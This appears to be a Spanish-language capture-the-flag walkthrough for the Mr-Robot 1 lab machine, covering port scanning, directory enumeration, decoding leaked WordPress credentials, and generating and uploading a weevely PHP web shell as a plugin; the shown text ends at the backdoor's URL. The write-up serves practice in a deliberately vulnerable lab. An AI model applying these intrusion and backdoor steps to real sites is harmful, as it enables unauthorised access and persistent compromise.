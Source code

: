 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=400&height=70&lines=Mr.Robot_1"></a>
</p>
  
<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/test?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf14.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/173256530-9e554740-e9d2-450e-8e1a-209d773c7247.png)

Puertos abiertos: [22,80,443]

- *Paso 2:* Enumerar directorios web con Dirb. 
```
dirb http://ctf14.root-me.org /usr/share/dirb/wordlists/small.txt
```
![2](https://user-images.githubusercontent.com/75953873/173256804-380ff8a7-8b69-4153-8ee8-8c1eb7c8eb0d.png)

URL objetivo: http://ctf14.root-me.org/license

![3](https://user-images.githubusercontent.com/75953873/173256860-82d25cc3-6a8c-4e59-97a8-cbe263df5162.png)

Credenciales ofuscadas a base64: **ZWxsaW90OkVSMjgtMDY1Mgo=**

- *Paso 3:* Decodificar credenciales con Python y Bash.

`Python:`
```python
import base64
key = 'ZWxsaW90OkVSMjgtMDY1Mgo='
print(base64.b64decode(key))
```

`Bash:`
```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![4](https://user-images.githubusercontent.com/75953873/173257252-c7dac9d3-f612-44ff-b31b-9d9baf5d297e.png)

Usuario: `elliot`

Contraseña: `ER28-0652`

- *Paso 4:* Acceder al panel de administración de WordPress, generalmente se agrega `/wp-admin.php` o `/wp-login.php` al final del dominio.
```
http://ctf14.root-me.org/wp-login.php
```
![5](https://user-images.githubusercontent.com/75953873/173257567-b73aa894-5756-41d1-b73b-f31db5de3f3d.png)

Plugins **>** instalar plugins

![6](https://user-images.githubusercontent.com/75953873/173257615-a9b95d88-ca5a-4a92-95a3-3391c4bd38a3.png)

Agregar nuevo plugin **>** Subir plugin

![7](https://user-images.githubusercontent.com/75953873/173257639-ce85dec7-fc54-4830-88b4-f040fa379b14.png)

- *Paso 5:* Crear backdoor con weevely.
```
weevely generate pass123 backdoor.php
```
![8](https://user-images.githubusercontent.com/75953873/173257694-583bc09c-8970-45bf-abd2-cd033643ef74.png)

- *Paso 6:* Subir backdoor como un plugin más.

![9](https://user-images.githubusercontent.com/75953873/173257782-8da08f9d-c687-458c-a84e-bb0cfd0ae0d0.png)

En el apartado de `Media` tenemos archivos e imágenes, el que nos interesa es el `backdoor.php` que acabamos de subir. Doble clic sobre él y copiamos la URL que esta en `Description`.

![10](https://user-images.githubusercontent.com/75953873/173257806-03d06d7d-9f12-4d0a-896a-daa654620609.png)

![11](https://user-images.githubusercontent.com/75953873/173257849-3f3aa920-9d27-4dd6-88fa-e26396948493.png)

URL: http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php
